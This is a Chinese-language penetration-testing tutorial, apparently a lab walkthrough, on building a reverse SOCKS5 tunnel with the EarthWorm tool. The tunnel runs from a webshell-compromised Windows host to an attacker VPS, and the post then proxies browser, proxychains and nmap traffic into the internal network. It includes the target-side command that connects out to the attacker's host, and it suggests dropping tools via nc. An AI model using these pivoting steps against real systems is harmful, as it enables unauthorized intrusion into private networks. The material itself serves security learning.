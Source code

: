 # 基础知识
内网穿透工具：[EW（EarthWorm）](https://link.zhihu.com/?target=http%3A//rootkiter.com/EarthWorm/)
下载地址： [https://github.com/idlefire/ew](https://github.com/idlefire/ew)

### 本文介绍：
1. 如何使用EW做反向Socks5代理
2. 浏览器如何设置Socks5代理访问目标内网Web服务
3. 利用proxychains给终端设置Socks5代理（方便将本地命令行工具的流量代理进目标内网）

![EW](https://leanote.com/api/file/getImage?fileId=5d9ec5b6ab64415a4900090c)



# 基础环境
1. Kali Linux（Attacker 内网 192.168.23.133）后面简称攻击机器
2. Ubuntu 16.04.3（Attacker 公网 144.168.57.70）后面简称公网机器
3. Windows 10（Victim 目标内网 10.74.155.39）后面简称目标机器

网络拓扑：Kali Linux是我本地的一台虚拟机，Ubuntu是公网上的一台 vps，Windows 10 是目标机器，内网IP，部分端口映射到外网，可以访问公网。


# 场景模拟
现在已拿到目标内网一台机器的权限（该机器将80端口映射至外网，Web服务存在漏洞，已拿到webshell）。需要对内网做进一步的渗透，目前我有一台公网的Ubuntu，一台内网的Kali，如何反向Socks5**将Kali的流量代理进目标内网**？

该使用场景为：
![https://github.com/idlefire/ew](https://leanote.com/api/file/getImage?fileId=5d9ec69bab64415a49000949)

# 使用EW做反向Socks5代理
此处仅演示通过EW做反向Socks5代理，正向、多级级联的的代理方式可以参考官方文档。

## 第1步：在公网的Ubuntu上执行如下命令：
``` shell
./ew_for_linux64 -s rcsocks -l 1080 -e 1024 &
```
该命令的意思是说公网机器监听1080和1024端口。等待攻击者机器访问1080端口，目标机器访问1024端口。
![公网 Ubuntu](https://leanote.com/api/file/getImage?fileId=5d9ec6daab64415c470008ed)


## 第2步：目标机器执行如下命令：
``` shell
ew_for_Win.exe -s rssocks -d 144.168.57.70 -e 1024
```
其中-d参数的值为刚刚的公网IP。

Windows 10 目标机器：
![Windows 10 目标机器](https://leanote.com/api/file/getImage?fileId=5d9eca2bab64415a49000aac)
注意这里访问了 1024 端口。

## 第3步：攻击机器Kali通过proxychains或浏览器设置Socks5代理访问目标内网服务


**方法一：Kali 浏览器设置Socks5代理**

![Kali 浏览器设置](https://leanote.com/api/file/getImage?fileId=5d9ec750ab64415a4900094a)


我随便在windows上面开一个web服务：
phpstudy 开一个 Apache:

![Windows 本地 Apache 服务](https://leanote.com/api/file/getImage?fileId=5d9ec779ab64415a49000963)



此时已可以通过Kali攻击机器的浏览器访问目标内网的Web服务：

![10.74.155.39为Windows10的内网IP](https://leanote.com/api/file/getImage?fileId=5d9ec7a5ab64415c47000930)


**方法二：使用proxychains给终端设置Socks5代理**

### 第1步：下载及安装proxychains
``` shell
cd /usr/local/src
git clone https://github.com/rofl0r/proxychains-ng.git
cd proxychains-ng 
./configure --prefix=/usr --sysconfdir=/etc
make && make install
make install-config
cd .. && rm -rf proxychains-ng
```
![安装完毕](https://leanote.com/api/file/getImage?fileId=5d9ec7d0ab64415c47000932)

这里一路操作下来畅通无阻，仅截图部分操作记录。

### 第2步：编辑proxychains配置文件设置代理
``` shell
vi /etc/proxychains.conf
socks5  144.168.57.70 1080
```

![/etc/proxychains.conf](https://leanote.com/api/file/getImage?fileId=5d9ec7efab64415a49000967)

### 第3步：测试内网穿透是否成功

![测试](https://leanote.com/api/file/getImage?fileId=5d9ec811ab64415a49000969)

因为刚刚说过，windows 10目标机器的127.0.0.1为 Apache 服务。
为什么是 `proxychains4` 这条命令呢？参考：[利用proxychains在终端使用socks5代理 - CSDN博客](https://blog.csdn.net/gengxuelei/article/details/52514603)

但是为什么失败了呢？其实是这里设置错了：

![/etc/proxychains.conf](https://leanote.com/api/file/getImage?fileId=5d9ec842ab64415c47000952)

看命令行的报错，先通过127.0.0.1的9050端口进行代理，就出错了。
所以修改`/etc/proxychains.conf`，把这一行删掉，只留下socks5这一行：

![只留下socks5这一行](https://leanote.com/api/file/getImage?fileId=5d9ec86aab64415c470009d6)

然后访问使用proxychains代理访问 127.0.0.1， 就成功了：

![127.0.0.1](https://leanote.com/api/file/getImage?fileId=5d9ec899ab64415a49000aa3)
![127.0.0.1](https://leanote.com/api/file/getImage?fileId=5d9ec8c8ab64415a49000aa5)

这也就是 Windows 10 的127.0.0.1：

![Windows10 127.0.0.1](https://leanote.com/api/file/getImage?fileId=5d9ec8f4ab64415c47000a12)





# 更进一步：使用proxychains nmap对目标内网扫描
大佬的文章里面提到了通过代理进行nmap扫描：
![大佬文章截图](https://leanote.com/api/file/getImage?fileId=5d9ec914ab64415a49000aa8)

但是亲测使用 kali ip 进行nmap扫描并不对：

nmap 扫 127.0.0.1：
![nmap 扫 127.0.0.1](https://leanote.com/api/file/getImage?fileId=5d9ec932ab64415c47000a14)

nmap 扫 windows 10 主机内网IP：
![nmap 扫 windows 10 主机内网IP](https://leanote.com/api/file/getImage?fileId=5d9ec94eab64415c47000a16)

nmap 扫 kali IP：
![nmap 扫 kali IP](https://leanote.com/api/file/getImage?fileId=5d9ec97cab64415c47000a17)

可以看出，扫 127.0.0.1 和扫 Kali IP的结果是一样的，但是和扫windows10主机内网IP的结果不一样。但是当然是以扫windows10内网IP的结果为准啦。

总结一下：**这里 nmap 的 IP 应该为目标机器内网IP。**就理解为：nmap已经运行在目标windows10上了，但是扫描的时候不能使用127.0.0.1作为IP，而应该是windows10的内网IP。（而且扫描不能用半连接）。

但是前面使用了proxychains代理连，结果本应该是一样的（127.0.0.1和内网IP都指向一个地方），这可能是因为nmap走代理有问题，也就是大佬文中提到的“有的工具流量不走sock5代理，就很尴尬，具体原因不详”。

但是归根结底要使用目标机器的内网IP的，因为有的时候我们还得扫网段。这个代理之后就相当于：
代理架构好了之后，我本地走的代理，理解为我的nmap是运行于目标机器上，但是扫描的IP不能是127.0.0.1，而是目标机器的内网ip。换句话说，就相当于我的这台Kali就是目标机器了（流量层面），就相当于我这台Kali已经在目标内网中了。

但是 @从心开始 群里的大神们说（感谢这群一直耐心教导我的师傅们），不建议通过代理扫描，动静大、速度慢、不稳定、时间长、容易断。

建议的方法：丢一个小工具到目标主机上扫（可以 nc 丢），或者自己写工具。小工具推荐为：portqry 或者有个很好的扫 windows 的叫 runfinger（一半端口扫描借助powershell或/dev/tcp）；hbscan；python写的小工具；ms 的 queryport......

至于为什么放着现成的工具不用自己写呢？因为大部分实战的情况下 并没有那么好的环境，很多操作都需要自己根据环境来编写对应的脚本，主要是一个根据环境定制化。nmap 体积大动静大，我们需要更轻量级定制化的工具。

总之内网穿透了就相当于我们的攻击机器在内网里面了，后面自己发挥......


--------------

参考链接：
[1] [如何通过EW做Socks5代理进行内网渗透](https://zhuanlan.zhihu.com/p/32822159)， 网络安全大事件，童话， 2018年1月10日
[2] [利用proxychains在终端使用socks5代理](https://blog.csdn.net/gengxuelei/article/details/52514603)， CSDN博客，Layne101，2016年9月12日
[3] [渗透技巧——Windows平台运行Masscan和Nmap](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E5%B9%B3%E5%8F%B0%E8%BF%90%E8%A1%8CMasscan%E5%92%8CNmap/)，3g学生博客，3g学生，2017年7月5日